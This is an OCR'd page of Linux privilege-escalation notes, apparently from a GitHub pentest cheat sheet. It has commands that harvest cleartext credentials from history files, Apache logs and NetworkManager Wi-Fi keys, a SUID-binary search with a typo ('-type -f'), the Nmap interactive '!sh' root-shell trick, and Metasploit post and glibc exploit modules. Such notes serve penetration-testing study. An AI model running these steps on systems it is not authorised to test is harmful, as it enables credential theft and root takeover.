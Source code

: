 ### Cleartext credentials in configuration files
- Find dotfiles files with history in their names (bash_history)

```
find /* -name *.*history* -print 2>/dev/null
```

- Grep the apache access.log file For user and pass strings

```
cat /var/log/apache/access.log | grep -E "^user|^pass"
```

- Dump cleartext Pre-Shared Wireless Keys from Network Manager

```
cat /etc/NetworkManager/system-connections/* | grep -E "^id|^psk"
```

Command Executions Via User-Defined Functions (UDF)
	https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html

### Metasploit - get config files
- Another way to download configuration files from the target system (assuming we have a shell from metasploit session)
   → use post/linux/gather/enum_configs

- Another metasploit module
   → use post/linux/gather/enum_system

> There is a lot more in >  /post/linux/ 

### SUID Binaries
- There are several other well-known SUID root binaries, as they all require some sort of elevated permissions to perform a function, and some of the most common you will find on linux systems are:

```
/bin/su
/bin/mount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
```

### Find SUID Binaries
```
find / -perm -4000 -type -f 2>/dev/null
```

### SUID Nmap --interactive Mode:
- Older versions of Nmap contained an interactive **shell**, which could be launched via the **--interactive** switch
- Once in interactive mode, and assuming the Nmap executable was SUID root, simply running **!sh** in the interactive Nmap console would land the user a root shell.

### glib '$ORIGIN' Expansion Privilege Escalation:
metasploit:
	use exploit/linux/local/glibc_origin_expansion_priv_esc
moreover: http://seclists.org/fulldisclosure/2010/Oct/257
